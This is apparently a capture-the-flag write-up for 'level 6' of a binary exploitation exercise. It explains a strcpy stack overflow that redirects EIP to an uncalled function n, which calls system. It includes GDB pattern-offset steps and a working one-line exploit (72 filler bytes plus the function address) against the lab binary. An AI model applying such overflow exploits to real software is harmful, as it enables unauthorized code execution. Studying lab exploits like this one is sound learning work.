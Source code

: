 # LEVEL 6

## 💡 Explanation

In this level we have to:
1. Check the binary, as always! The main calls `strcpy` and then it calls the function `m`. Same as the in the level1, inside of the binary we can also find a function `n` which contains a call to `system` but it is not called on the main.
2. We are going to exploit the call to `strcpy` to place the address of the function `n` on the eip. It is a buffer overflow similar to the level1 but instead of exploiting a `gets` we will have to pass as an argument the string that is going to overflow.
3. To build the exploit we will have to find out what if the offset of the EIP and then place the address of `n`: [RANDOM CHARS UNTIL EIP][ADDRESS N]

## 👾 Commands

To find the solution:
```
[GDB] pattern create 200 => Stopped reason: SIGSEGV || <ADDRESS> in ?? ()
[GDB] pattern offset <ADDRESS> => Gives the offset of EIP
[GDB] disas n
```

To execute the solution:
- `/home/user/level6/level6 $(python -c 'print "A"*72 + "\x54\x84\x04\x08"')`

## 🔍 Resources

- [Function C - strcpy](https://koor.fr/C/cstring/strcpy.wp)
- [Exploring Buffer Overflows in C, Part Two: The Exploit](https://www.tallan.com/blog/2019/04/04/exploring-buffer-overflows-in-c-part-two-the-exploit/)
- [Buffer Overflow using strcpy()](https://shankaraman.wordpress.com/tag/how-to-exploit-strcpy/)
